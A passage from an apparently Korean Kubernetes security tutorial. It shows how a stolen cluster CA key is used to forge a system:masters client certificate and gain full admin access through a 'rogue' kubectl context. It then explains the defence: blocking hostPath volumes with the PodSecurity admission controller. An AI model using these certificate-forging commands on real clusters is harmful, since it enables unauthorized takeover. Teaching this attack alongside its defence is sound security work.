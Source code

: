 ```
openssl genrsa 2048 -out rogue.key
openssl req -new -key rogue.key -out rogue.csr -subj "/CN=rogue/O=system:masters"
openssl x509 -req -CA ca.crt -CAkey ca.key -CAcreateserial -in rogue.csr -out rogue.crt -days 365
```

```
kubectl config set-credentials rogue --client-key=rogue.key --client-certificate=rogue.crt --embed-certs
kubectl config set-context rogue --cluster=kind-kind --user=rogue
kubectl config use-context rogue
```

새롭게 설정한 컨텍스트를 통해 관리자 권한으로 클러스터에서 작업할 수 있다!

```
$ kubectl auth can-i delete namespaces -A
yes

$ kubectl auth can-i --list
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
            [*]                 []               [*]
...(생략)...
```


## 방어

이렇듯 컨테이너가 호스트에 접근하는 것을 통제하지 못하면 공격자가 호스트의 정보를 빼내거나 변조할 수 있다.

그래서 기본적으로 hostPath 타입의 볼륨은 금지해야 한다. 그 외에도 컨테이너의 권한 통제를 위한 추가 조치를 적용하는 것이 좋다.

### hostPath 볼륨 금지

[*PodSecurity*](https://kubernetes.io/docs/reference/access-authn-authz/admission-controllers/#podsecurity) Admission Controller는 Pod가 보안 정책을 준수하도록 강제할 수 있다.

Pod의 보안 정책은 [Pod Security Standards](https://kubernetes.io/docs/concepts/security/pod-security-standards/)에 정의되어있으며 *Privileged*, *Baseline*, *Restricted* 3단계로 나뉜다. 이 중 Baseline 혹은 Restricted 정책을 적용하여 hostPath 볼륨을 포함한 Pod의 권한 상승 수단을 제한할 수 있다. Baseline 정책으로 최소한의 보안만 적용해도 사고를 예방할 수 있다.

네임스페이스에 레이블을 추가하는 것으로 간단히 적용할 수 있다.

```
kubectl label --overwrite ns my-namespace \
  pod-security.kubernetes.io/enforce=baseline \
  pod-security.kubernetes.io/enforce-version=latest
```

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: my-namespace
  labels:
    pod-security.kubernetes.io/enforce: baseline
    pod-security.kubernetes.io/enforce-version: latest
```

